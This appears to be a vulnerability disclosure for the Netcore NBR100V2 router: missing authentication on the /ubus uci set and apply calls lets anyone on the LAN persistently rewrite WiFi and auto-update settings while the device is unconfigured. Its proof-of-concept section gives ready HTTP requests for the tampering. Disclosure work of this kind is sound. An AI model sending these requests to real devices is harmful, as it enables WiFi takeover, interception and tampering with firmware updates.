

# Netcore NBR100V2 Router

- Vendor: Netcore
- Product: Netcore NBR100V2
- Firmware Version: V1.3.240614.030928 (LEDE 17.01-SNAPSHOT, mipsel / MT7621)
- Vulnerability Type: Unauthenticated Configuration Tampering (CWE-862), Missing Authentication for Critical Function (CWE-306)

## Overview

An unauthenticated configuration-tampering vulnerability was identified in the Netcore NBR100V2 router. When the device is in its factory-default / unconfigured state, a remote attacker on the LAN can — without any credentials — persistently modify a subset of the device configuration through the `/ubus` endpoint (rpcd `uci` object), including the WiFi configuration (`wificfg`) and the OTA/auto-update configuration (`auto_update`). This enables WiFi credential theft (SSID/key alteration, rogue-AP / MitM) and tampering with the firmware update source. The vulnerable calls:

`POST /ubus` → ubus object `uci`, methods `set` + `apply`

Successful exploitation requires the device to be unconfigured (`system.@system[0].initialized == 0`), which holds out-of-the-box and after a factory reset, until the user completes the first configuration wizard.

## Vulnerability Details

The web stack is a uhttpd single-process front-end (HTTP 80/443/23355) exposing the ubus JSON-RPC endpoint `/ubus` (enabled at first boot by `/etc/uci-defaults/00_uhttpd_ubus`). Authorization of ubus calls is enforced by rpcd (`/sbin/rpcd`) against per-role ACL files in `/usr/share/rpcd/acl.d/`. rpcd applies **two independent ACL layers** to the `uci` object:

- **Method layer** (`write.ubus.uci`): which `uci` ubus methods may be called.
- **Config layer** (`write.uci`): which configuration files (in `/etc/config`) may be modified.

While `initialized=0`, rpcd loads the permissive `/usr/share/rpcd/acl.d/unauthenticated.json`, which grants an anonymous ubus session (`00000000000000000000000000000000`):



```json
"write": {
    "ubus": { "uci": ["get", "set", "apply"] },
    "uci":  ["wificfg", "system", "auto_update"]
}
```

That is, an unauthenticated caller may invoke `uci.set` and `uci.apply` and may modify the `wificfg`, `system` and `auto_update` configurations. (Configurations such as `firewall`, `dropbear`, `network` are **not** in the `write.uci` list and are rejected with `PERMISSION_DENIED` — confirmed during testing.)

**Persistence.** `uci.set` modifies the in-memory staging area (`/tmp/.uci/<config>`). Crucially, in this firmware's rpcd the `uci.apply` call performs the commit step internally (staging → `/etc/config/<config>`, written to the persistent jffs2 overlay) followed by a service reload — so a single `set` + `apply` sequence **persistently** changes the configuration (survives reboot; cleared only by factory reset / `jffs2reset`).

After the first configuration, `routerd.param_status_set` atomically replaces this file with the restricted `unauthenticated.json.initialized` (`unlink` + `symlink` + `uci set initialized=1` + `killall -SIGHUP rpcd`), which drops anonymous `uci` write access. The ACL transition is one-way.

## Proof of Concept

No login required (factory-default / unconfigured device). The example below uses `auto_update` (in the `write.uci` allow-list); the same sequence applies to `wificfg`.

Step 1 — modify a configuration value:

```http
POST /ubus HTTP/1.1
Host: <target>
Content-Type: application/json
Content-Length: <len>

{"jsonrpc":"2.0","id":1,"method":"call","params":["00000000000000000000000000000000","uci","set",{"config":"auto_update","section":"control","values":{"agent_enable":"9"}}]}
```

Response: `{"jsonrpc":"2.0","id":1,"result":[0]}`

The `section` may be a concrete section name (e.g. `control`, obtained from `uci get`) or the indexed form `@auto_update[0]`; both work.

Step 2 — apply (commits staging to `/etc/config` on the persistent overlay and reloads):

```http
POST /ubus HTTP/1.1
Host: <target>
Content-Type: application/json
Content-Length: <len>

{"jsonrpc":"2.0","id":1,"method":"call","params":["00000000000000000000000000000000","uci","apply",{}]}
```

Response: `{"jsonrpc":"2.0","id":1,"result":[0]}`

After Step 2, `/etc/config/auto_update` on the device contains the modified value (e.g. `option agent_enable '9'`), persisted on the jffs2 overlay.

For WiFi takeover, replace Step 1 with a `uci.set` on `wificfg` (e.g. change the `ssid` / `key` / encryption options of the `@wifi-iface[0]` section), then `uci.apply`.

## Impact

An unauthenticated attacker on the LAN can, in the factory-default / unconfigured window, persistently:

- **`wificfg`** — alter WiFi SSID / key / encryption → steal or reset WiFi credentials, force clients onto a rogue AP, enable wireless MitM;
- **`auto_update`** — alter the OTA update server / enable flags → tamper with the firmware update source (potential supply-chain / malicious-firmware vector when the device later auto-updates);
- **`system`** — alter hostname / timezone / etc. (lower severity).

Note: `firewall`, `dropbear` and `network` are NOT writable by the anonymous session and cannot be modified through this issue.

## Reproduction Result

The vulnerability was dynamically verified against the firmware emulated with qemu-mipsel (factory-default ACL state, `initialized=0`). An anonymous ubus session (`"0"*32`) sent over HTTP `/ubus` was accepted by rpcd: `uci.set` returned `result:[0]`, `uci.apply` returned `result:[0]`, and `/etc/config/auto_update` on the emulated rootfs was persistently modified (`agent_enable` set to `9`, confirmed on disk after apply). Configuration files outside the `write.uci` allow-list (e.g. `dropbear`) were rejected with `PERMISSION_DENIED`.
